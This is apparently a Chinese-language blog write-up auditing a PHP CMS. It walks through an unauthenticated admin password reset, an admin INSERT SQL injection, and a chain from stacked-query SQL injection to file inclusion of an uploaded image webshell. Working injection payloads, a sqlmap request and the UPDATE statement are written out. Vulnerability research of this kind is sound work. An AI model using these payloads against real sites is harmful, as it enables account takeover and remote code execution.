


# forucms代码审计

> 跟@Mer4k聊天的时候突然找到的这么一个cms，随便审计一下，看看能不能RCE

## 任意用户密码重置

简直傻逼，发现的代码如下：

我首先在找RCE，没找到，但关注到这样的代码：

```php
  if ($res = $db->getRow("SELECT id,u_name,u_psw FROM user WHERE u_name='$a_name' AND u_isadmin=1")) {

    if (psw_verify($a_password, $res['u_psw'])) {

      limitUserLogin($res['id']); // 用户多终端登陆限制

      setUserToken($res['id'], $res['u_name']); // 设置用户标示
      admin_log('管理员登陆');
      href('index.php?act=welcome');

    } else {
      alert_href('用户名或密码错误', 'cms_login.php');
    }

  } else {
    alert_href('用户名或密码错误', 'cms_login.php');
  }
}
```

其中这个接口act引起我的关注，我开始找到index.php，观看具体逻辑：

admin/index.php

```php
switch ($act) {
  case 'clearUploadfile':
    clearUploadfile();
  break;

  case 'welcome':
    href('cms_welcome.php');
  break;

  case 'logout':
    userLogout('cms_login.php');
  break;

  case 'baiduSend':
    // 生成数组数据
    $y = date("Y");
    $m = date("m");
    $d = date("d");
    $days = mktime(0, 0, 0, $m, $d, $y);
    $daye = mktime(23, 59, 59, $m, $d, $y);
    getDetailBaiduSend($days, $daye);
  break;

  // reset admin password
  case 'reset_admin_psw':
    $psw = psw_hash('admin');
    $sql = "UPDATE user SET u_psw = '$psw' WHERE id = 1";
    $db->query($sql);
    echo $psw;
  break;
```

发现reset根本就没有鉴权，随便密码重置


## install.php RCE



可惜了，被交CVE了，没办法了。

## 后台SQL注入

Insert类型的注入，不过是后台的，没啥用，就当学习了

无过滤，直接拼接的，注入：


最终调用的是这个`ops`执行的SQL


```
333',(select user())); #
```


## RCE

### 失败的尝试

这个站后台写的有问题，不然下面的方式直接可以RCE了：


该功能点可以修改这里的值（channel.php）


但是他代码这里有问题：


造成原因是：


他给转义了，所以莫名其妙的这个功能点就用不了，如果这里的表名获取正常，是可以的


### 成功的尝试

> 我将从头开始，仔细说明这个漏洞的发现过程。

首先，我发现在`channel.php`中存在这样的代码，很可能存在本地文件包含


于是选择追踪这两个变量的来源：

`$t_path`

```php
$t_path = TPL_DIR . '/' . (!empty($_COOKIE['cms']['template_id']) ? $_COOKIE['cms']['template_id'] : $cms['s_template']) . '/';
$GLOBALS['t_path'] = &$t_path;
```

`$channel['c_cmodel']`

```php
  public function getChannel($id) {
    return $this->db->getRow("SELECT * FROM channel WHERE id = $id");
  }
```

在后台，我们可以控制这个`c_cmodel`的值

```php
  $sql = "INSERT INTO channel ".arr_insert($data);
  $dataops->ops($sql, '频道新增', 1);
```

因此，我们可以完全控制整个channel.php的值，造成了LFI

然而，我发现，由于作者代码的问题，在后台，我无法修改`c_cmodel`的值。


所有的键和值都要经过`arr_insert()`这个函数


这个函数会对键做`str_safe`操作：


而我最终发现，`str_safe`会最终调用`str_isafe()`方法，这个方法会把`script`变成`&#115;cript`.作者的本意可能是好的，然而，我们的键存在这样的字段：

```
$data['c_description'] = $_POST['c_description'];
```

因此这个键会被转义，最终无法插入表。

于是，我选择寻找一个SQL注入漏洞，来帮助我直接对这个表进行修改。

所以，我全局搜索`select`，发现很多点都被转成了整数型


但是这一处并没有：`cms_admin.php`


这里需要明确请求包的参数：`act=add&a_name=123`

于是使用我的SQLMAP开始尝试进行SQL注入，并得到了满意的结果：



接下来我需要获取两个东西：`数据库名`和`表名`

这个站的报错有些问题，SQLMAP始终无法获取`--current-db`的结果。但是我们有`CVE-2024-0426`，一个后台的Insert类型的SQL注入，有用起来了：

```
333',(select database())); #
```


表名前缀：

-v 6来查看SQLMAP注入所产生的数据，报错显示出来了表名前缀：


最后更新：

> SQLMAP的payload如下：
>
> ```
> act=add&a_name=admin%27%3BUPDATE%20xhcms.cms_channel%20SET%20c_cmodel%20%3D%200x2e2e2f2e2e2f75706c6f616466696c652f696d6167652f32303234303131302f32303234303131303137323830345f31343732392e706e67%20WHERE%20id%20%3D%205%23
> ```

上传图片Webshell，得到路径。


最后利用SQLMAP的`--sql-shell`来执行任意SQL语句：

```sql
UPDATE xhcms.cms_channel SET c_cmodel = '../../uploadfile/image/20240110/20240110172804_14729.png' WHERE id = 5;
```


